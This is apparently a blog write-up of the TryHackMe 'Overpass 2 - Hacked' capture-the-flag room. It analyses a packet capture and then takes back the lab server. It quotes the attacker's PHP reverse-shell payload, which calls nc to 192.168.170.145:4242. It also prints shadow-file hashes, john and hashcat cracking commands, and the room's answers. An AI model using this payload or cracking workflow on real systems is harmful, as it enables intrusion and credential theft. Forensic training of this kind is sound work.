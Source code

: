 ```yaml
---
layout: post
title: Box - Overpass 2 - Hacked
published: true
---
```


Overpass has been hacked! Can you analyse the attacker's actions and hack back in?

[https://tryhackme.com/room/overpass2hacked](https://tryhackme.com/room/overpass2hacked)

![](/assets/wireshark.jpg)

* * *

## Task 1 - Forensics - Analyse the PCAP 

- Can you work out how the attacker got in, and hack your way back into Overpass' production server?

- md5sum of PCAP file: 11c3b2e9221865580295bc662c35c6dc

##   Answer the questions below

**What was the URL of the page they used to upload a reverse shell?**

- checking out wireshark we can see a lot of access to /developments/ and an /upload.php which was used to upload payload.php to /developments/upload/payload.php

**What payload did the attacker use to gain access?**

- inspect the 1026 char POST /development/upload.php

```php
<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>
```

**What password did the attacker use to privesc?**

- traverse through wireshark, **follow the TCP Stream**
- james:whenevernoteartinstant

**How did the attacker establish persistence?**

- line 120
- [https://github.com/NinjaJc01/ssh-backdoor](https://github.com/NinjaJc01/ssh-backdoor)

**Using the fasttrack wordlist, how many of the system passwords were crackable?**

- find in wireshark (i didnt note the line :sleeping:)

```shell
/etc/shadow
james:$6$7GS5e.yv$HqIH5MthpGWpczr3MnwDHlED8gbVSHt7ma8yxzBM8LuBReDV5e1Pu/VuRskugt1Ckul/SKGX.5PyMpzAYo3Cg/:18464:0:99999:7:::
paradox:$6$oRXQu43X$WaAj3Z/4sEPV1mJdHsyJkIZm1rjjnNxrY5c8GElJIjG7u36xSgMGwKA2woDIFudtyqY37YCyukiHJPhi4IU7H0:18464:0:99999:7:::
szymex:$6$B.EnuXiO$f/u00HosZIO3UQCEJplazoQtH8WJjSX/ooBjwmYfEOTcqCAlMjeFIgYWqR5Aj2vsfRyf6x1wXxKitcPUjcXlX/:18464:0:99999:7:::
bee:$6$.SqHrp6z$B4rWPi0Hkj0gbQMFujz1KHVs9VrSFu7AU9CxWrZV7GzH05tYPL1xRzUJlFHbyp0K9TAeY1M6niFseB9VLBWSo0:18464:0:99999:7:::
muirland:$6$SWybS8o2$9diveQinxy8PJQnGQQWbTNKeb2AiSp.i8KznuAjYbqI3q04Rf5hjHPer3weiC.2MrOj2o1Sw/fd2cu0kC6dUP.:18464:0:99999:7:::
```

- crack the hashes

```shell
┌──(0xskar㉿cocokali)-[~/thm/rooms/overpass2hacked]
└─$ john --format=sha512crypt --wordlist=/usr/share/wordlists/fasttrack.txt etc.shadow.hashes 
Using default input encoding: UTF-8
Loaded 5 password hashes with 5 different salts (sha512crypt, crypt(3) $6$ [SHA512 128/128 AVX 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
secret12         (bee)     
abcd123          (szymex)     
1qaz2wsx         (muirland)     
secuirty3        (paradox)     
4g 0:00:00:00 DONE (2022-06-23 23:00) 6.349g/s 352.3p/s 1761c/s 1761C/s Spring2017..starwars
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

* * *

## Task 2 - Research - Analyse the code 

##   Answer the questions below

**What's the default hash for the backdoor?**

- check https://github.com/NinjaJc01/ssh-backdoor/blob/master/main.go
- ``bdd04d9bb7621687f5df9001f5098eb22bf19eac4c2c30b6f23efed4d24807277d0f8bfccb9e77659103d78c56e66d2d7d8391dfc885d0e9b68acd01fc2170e3``

**What's the hardcoded salt for the backdoor?**

- 1c362db832f3f864c8c2fe05f2002a05

**What was the hash that the attacker used? - go back to the PCAP for this!**

- Follow TCP Stream - Line 3479
- 6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed

**Crack the hash using rockyou and a cracking tool of your choice. What's the password?**

- ``hash-identifier`` tells us SHA-512 and the main.go tells us sha512 pass:salt
- ``hashcat -h`` tells us to use 1710 sha512($pass.$salt)
- build command ``hashcat -a 0 -m 1710 attacker.salt.hash /usr/share/seclists/Password/rockyou.txt``
- ``november16``

* * *

## Task 3 Attack - Get back in! 

Now that the incident is investigated, Paradox needs someone to take control of the Overpass production server again.

There's flags on the box that Overpass can't afford to lose by formatting the server!

##   Answer the questions below

**The attacker defaced the website. What message did they leave as a heading?**

1. Visit Website
2. H4ck3d by CooctusClan

**Using the information you've found previously, hack your way back in!**

1. SSH backdoor is @ port 2222
2. trying to use SSH returns ``no matching host key type found. Their offer: ssh-rsa``
3. googlfu the answer and adding ``HostKeyAlgorithms +ssh-rsa,ssh-dss`` to ``/etc/ssh_config`` lets us connect with james' password. Now for privesc!

```shell
Your identification has been saved in id_rsa.
Your public key has been saved in id_rsa.pub.
The key fingerprint is:
SHA256:z0OyQNW5sa3rr6mR7yDMo1avzRRPcapaYwOxjttuZ58 james@overpass-production
The key's randomart image is:
+---[RSA 2048]----+
|        .. .     |
|       .  +      |
|      o   .=.    |
|     . o  o+.    |
|      + S +.     |
|     =.o %.      |
|    ..*.% =.     |
|    .+.X+*.+     |
|   .oo=++=Eo.    |
+----[SHA256]-----+
```

**What's the user flag?**

- easy just check home

**What's the root flag?**

- nice of them to leave suid :)

* * * 